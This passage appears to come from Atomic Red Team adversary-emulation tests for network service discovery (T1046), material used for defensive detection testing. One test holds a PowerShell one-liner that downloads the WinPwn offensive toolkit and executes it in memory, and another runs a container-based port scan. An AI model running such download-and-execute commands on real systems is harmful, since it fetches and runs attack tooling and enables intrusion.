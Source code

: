 **Supported Platforms:** Windows


**auto_generated_guid:** bb037826-cbe8-4a41-93ea-b94059d6bb98






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
fruit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #9 - Network Service Discovery for Containers
Attackers may try to obtain a list of services that are operating on remote hosts and local network infrastructure devices, in order to identify potential vulnerabilities that can be exploited through remote software attacks. They typically use tools to conduct port and vulnerability scans in order to obtain this information.

**Supported Platforms:** Containers


**auto_generated_guid:** 06eaafdb-8982-426e-8a31-d572da633caa






#### Attack Commands: Run with `sh`! 


```sh
docker build -t t1046 $PathToAtomicsFolder/T1046/src/
docker run --name t1046_container --rm -d -t t1046
docker exec t1046_container /scan.sh
```

#### Cleanup Commands:
```sh
docker stop t1046_container
docker rmi -f t1046
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
```